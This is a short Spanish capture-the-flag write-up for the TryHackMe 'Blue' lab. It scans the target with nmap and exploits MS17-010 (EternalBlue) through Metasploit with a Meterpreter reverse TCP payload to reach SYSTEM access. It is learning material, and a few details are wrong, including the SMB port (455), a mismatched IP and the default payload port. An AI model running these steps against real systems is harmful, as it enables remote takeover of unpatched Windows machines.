 ```yaml
---
title : Blue
published : True
---
```

---
<p>Maquina : Blue</p>
<p>Url : <a href="https://tryhackme.com/room/blue">Blue</a></p>
<p></p>
---
<h2><font color="white"><center># blue</center></font></h2>
<p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
<p></p>
<img src="/imgs/blue/blue0.jpg"/>
<p>Vemos que en la imagen el ttl es de 127 lo que inidica que es una maquina windows, ahora vermos que puertos estan abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
<p></p>
<img src="/imgs/blue/blue1.jpg"/>
<p>tiene el puerto smb abierto <font color="gold">455</font> veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
<p></p>
<img src="/imgs/blue/blue2.jpg"/>
<p>Al paracer es vulnerable a <font color="yellow">( ms17-010 EternalBlue )</font>, ahora explotemoslo con <font color="gold">msfconsole</font>.</p>
<p>Usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
<p></p>
<img src="/imgs/blue/blue3.jpg"/>
<p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
<p></p>
<img src="/imgs/blue/blue4.jpg"/>
<p>Indicamos la ip de la maquina victima con <font color="gold">set rhosts</font>.</p>
<img src="/imgs/blue/blue5.jpg"/>
<p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
<img src="/imgs/blue/blue6.jpg"/>
<p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
<img src="/imgs/blue/blue7.jpg"/>
<p>Seguidamente ejecutamos <font color="red">exploit</font> para iniciar el ataque.</p>
<img src="/imgs/blue/blue8.jpg"/>
<p>Y listo si ejecutas el comando shell, y pones whoami seras autority system</p>
<p>Ok maquina vulnerada</p>
3
